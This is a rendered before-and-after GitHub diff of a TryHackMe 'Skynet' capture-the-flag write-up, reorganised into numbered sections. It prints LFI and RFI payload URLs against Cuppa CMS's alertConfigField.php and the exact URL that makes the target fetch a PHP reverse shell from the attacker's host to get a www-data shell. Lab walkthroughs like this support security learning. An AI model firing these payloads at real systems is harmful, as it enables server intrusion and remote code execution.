

Before and after one commit to Youssef-Mohamed100/Youssef-Mohamed100, a Markdown page: Linux Pentest/THM/Skynet.md, 2 parts joined by grey strips. Shown at 81% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Linux Pentest/THM/Skynet.md
+++ b/Linux Pentest/THM/Skynet.md
@@ -1,13 +1,19 @@
+
 # <div align="center">Skynet</div>
 
 <div align="center">
-    <img align-item="center" width="200"  src="https://tryhackme.com/_next/image?url=https://cdn-images.tryhackme.com/room-icons/78628bbf76bf1992a8420cdb43e59f2d.jpeg&w=128&q=75" alt="Material Bread logo">
+    <img align-item="center" width="200" src="https://tryhackme.com/_next/image?url=https://cdn-images.tryhackme.com/room-icons/78628bbf76bf1992a8420cdb43e59f2d.jpeg&w=128&q=75" alt="Skynet Room Icon">
 </div>
 
+---
 
-# <div align="center">Let Start With Nmap scan.</div>
+## 1. Enumeration
 
-```
+### Nmap - Initial Scan
+
+I started by performing an initial Nmap scan to identify the target's open ports and available services.
+
+```text
 ┌──(kali㉿kali)-[~]
 └─$ nmap 10.129.157.254 -Pn -T4
 Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-01 14:21 -0500
@@ -387,40 +439,74 @@ Progress: 220558 / 220558 (100.00%)
 ===============================================================
 Finished
 ===============================================================
-
 ```
 
+The scan revealed an `/administrator/` directory.
 
-## I discovered Cuppa CMS running in administrator page ,I found "Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion"
+Upon accessing it, I discovered that the application was running **Cuppa CMS**.
 
-## in exploit-db "LFI" ,"RFI" and "path traversal" for this service
+---
 
+## 7. Initial Access - Cuppa CMS LFI/RFI
 
-## the vulnerability was in "/alerts/alertConfigField.php?urlConfig
+During further investigation, I identified a known vulnerability in Cuppa CMS:
 
+**Cuppa CMS - `alertConfigField.php` Local/Remote File Inclusion**
 
-### LFI : http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
+The vulnerability affects the following endpoint:
 
-### RFI : http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
+`/alerts/alertConfigField.php?urlConfig`
 
+The vulnerable parameter is `urlConfig`, which can be abused to include local or remote resources.
 
+### Local File Inclusion (LFI)
+
+The LFI vulnerability can be tested by attempting to retrieve the system's `/etc/passwd` file.
+
+```text
+http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
+```
+
+### Remote File Inclusion (RFI)
+
+The same parameter can also be used to request a remote resource.
+
+```text
+http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
+```
 
 <img width="1296" height="526" alt="image" src="https://github.com/user-attachments/assets/511877b4-05f8-470b-bdc6-e3fe3c848d76" />
 
+### Exploiting RFI to Obtain a Reverse Shell
 
-## I exploit vulnerability by make server request file from me , so I could create php-reverse-shell.php to get a shell from this vulnerability
+I exploited the Remote File Inclusion vulnerability by hosting a PHP reverse shell on my machine and making the target server request it through the vulnerable parameter.
 
+I started a local HTTP server to host the reverse shell file, then accessed the vulnerable endpoint using the following URL:
+
+```text
 http://10.129.157.254/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://192.168.192.119:8000/reverse-shell.php
+```
 
+This allowed me to obtain an initial shell as `www-data`.
 
 <img width="1065" height="622" alt="image" src="https://github.com/user-attachments/assets/1be06cf0-ab2a-4df4-a86a-5e10e59a3954" />
 
+---
 
-## I found backup file and I could read it
+## 8. Privilege Escalation - www-data to root
 
+After obtaining the initial shell, I started enumerating the system for potential privilege escalation vectors.
 
-```
+### Backup Script Enumeration
 
+While exploring the `/home/milesdyson/backups/` directory, I discovered two files:
+
+- `backup.sh`
+- `backup.tgz`
+
+I inspected the backup script and found that it creates a compressed archive of the web root directory.
+
+```text
 www-data@skynet:/home/milesdyson/backups$ ls
 ls
 backup.sh
````
Also changed, not shown: other parts of Linux Pentest/THM/Skynet.md (+160 -53 lines).
